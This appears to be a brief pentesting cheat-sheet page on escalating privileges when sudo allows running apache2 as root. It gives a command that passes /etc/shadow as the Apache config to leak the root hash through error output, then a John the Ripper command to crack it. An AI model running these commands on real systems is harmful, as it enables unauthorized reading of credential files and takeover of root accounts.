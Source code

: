 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
